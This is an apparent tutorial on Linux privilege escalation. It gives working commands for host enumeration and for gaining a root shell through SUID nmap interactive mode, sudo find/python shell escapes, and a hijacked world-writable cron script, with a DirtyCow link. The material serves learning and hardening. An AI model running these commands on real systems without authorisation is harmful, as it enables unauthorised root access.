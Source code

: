 # Linux  Privilege Escalation

Hey there Learners , so lets start with basic Linux privilege escalation , so to get through this there are some important things which we really need to keep in mind that how a actual Linux system is what are the applications installed default , file permission , odd files , cron jobs , Kernal version , server information etc.

so to find these what you need to do :|

There are some basic commands to find them and pull out the culprits from a vulnerable linux machine.

For finding distribution type and kernel version of the linux machine:
```
cat /etc/issue 
cat /etc/*-release
cat /proc/version 
uname -a 
uname -mrs 
rpm -q kernel
```

These above commands just prints out the kernel version and distribution of a Linux machine 

to privilege escalation with these commands can let you find the right exploit for the kernel level vulnerability and distribuition

For example:
[https://www.exploit-db.com/exploits/40839] (dirtycow)

DirtyCow is known to be very popular exploit and works majority on un-patched linux distribution which were 2016 earlier version of linux distribution  	

# Exploiting Vulnerable Applications and Services 

So here its needs alot of enumeration and understand what certain commands on linux does and how they work so there are certain commands which can let you list out the vulnerable services and application running on a linux machine 

```
ps aux 
ps -ef
top 
cat /etc/services
```

These above commands list outs the services which are running and has user privilege so you need to use "grep" to sort out the services which are running by root :D

 ```
 ps aux | grep root 
 ps -ef | grep root
 ```
so they look simple but you need to check carefully and need to have a active mind while looking for these.

# Exploiting SUID  Executables 

SUID which stands for set user ID, is a Linux feature that allows users to execute a file with the permissions of a specified user. For example, the Linux ping command typically requires root permissions in order to open raw network sockets. By marking the ping program as SUID with the owner as root, ping executes with root privileges anytime a low privilege user executes the program.

> **> -rwsr-xr-x****–** The ‘s’ character instead of ‘x’ indicates that the SUID bit is set.

![](1.png)

SUID is a feature that, when used properly, actually enhances Linux security. The problem is that administrators may unknowingly introduce dangerous SUID configurations when they install third party applications or make logical configuration changes.

A large number of sysadmins don’t understand as where to set SUID bit and where not. SUID bit should not be set especially on any file editor as an attacker can overwrite any files present on the system.


**Exploiting vulnerable SUID executable to get root access**

> $  **find / -perm -u=s -type f 2>/dev/null**  – It prints the executables which have SUID bit set

![](2.png)

> **$ ls -la /usr/local/bin/nmap –**  Let’s confirm if nmap has SUID bit set or not.

![](3.png)

Nmap has SUID bit set. A lot of times administrators set the SUID bit to nmap so that it can be used to scan the network efficiently as all the nmap scanning techniques does not work if you don’t run it with root privilege.

 However, there is a functionality in nmap older versions where you can run nmap in an interactive mode which allows you to escape to shell. If nmap has SUID bit set, it will run with root privilege and we can get access to ‘root’ shell through it’s interactive mode.

$  **nmap –interactive**  – runs nmap interactive mode  
$  **!sh**  – Lets you escape to the system shell from nmap shell

![](4.png)


# Exploiting SUDO rights/user


If the attacker can’t directly get root access via any other techniques he might try to compromise any of the users who have SUDO access. Once he has access to any of the sudo users, he can basically execute any commands with root privileges.

Administrators might just allow the users to run a few commands through SUDO and not all of them but even with this configuration, they might introduce vulnerabilities unknowingly which can lead to privilege escalation.

A classic example of this is assigning SUDO rights to the find command so that another user can search for particular files/logs in the system. While the admin might be unaware that the ‘find’ command contains parameters for command execution, an attacker can execute commands with root privilege.

**Exploiting misconfigured SUDO rights to get root access**

> $ **sudo -l**  – Prints the commands which we are allowed to run as SUDO

![](5.png)

We can run find, cat and python as SUDO. These all commands will run as root when run with SUDO. If we can somehow escape to the shell through any of these commands, we can get root access.

$ sudo find /home -exec sh -i \; – find command’s exec parameter can be used for arbitrary code execution.

![](6.png)

> Never give SUDO rights to any of the programming language compiler, interpreter and editors.

> This technique can also be applied to vi, more, less, perl, ruby, gdb and others.

$ sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’ – spawns a shell

![](7.png)

# Exploiting badly configured cron jobs

_Cron jobs, if not configured properly can be exploited to get root privilege.

1. Any script or binaries in cron jobs which are writable?  
2. Can we write over the cron file itself.  
3. Is cron.d directory writable?

Cron jobs generally run with root privileges. If we can successfully tamper any script or binary which are defined in the cron jobs then we can execute arbitrary code with root privilege.

Exploiting badly configured cron jobs to get root access

> $  **ls -la /etc/cron.d**  – prints cron jobs which are already present in cron.d

![](8.png)


**$ find / -perm -2 -type f 2>/dev/null –** prints world writable files

$ **ls -la /usr/local/sbin/cron-logrotate.sh**  – Let’s confirm if the cron-logrotate.sh is world writable.

![](9.png)


cron-lograte.sh is world writable and it is being run by logrotate cronjob. Any command we write/append in cron-lograte.sh would be executed as ‘root’.
 We write a C file in /tmp directory and compile it.

![](10.png)

The rootme executable will spawn a shell.

**$ ls -la rootme**  – It tells us that it is owned by user ‘SHayslett’

![](11.png)

**$ echo “chown root:root /tmp/rootme; chmod u+s /tmp/rootme;”>/usr/local/sbin/cron-logrotate.sh –** This will change the executable’s owner and group as root. It will also set the SUID bit.

Chown: The command chown, an abbreviation of change owner, is used on Unix and Unix-like operating systems to change the owner of file system files, directories.

Chmod : In Unix and Unix-like operating systems, chmod is the command and system call which is used to change the access permissions of file system objects.

$ **ls -la rootme** – After 5 minutes, the logrotate cronjob was run and cron-logrotate.sh got execute with root privilege.

$ **./rootme** – spawns a root shell.

![](12.png)
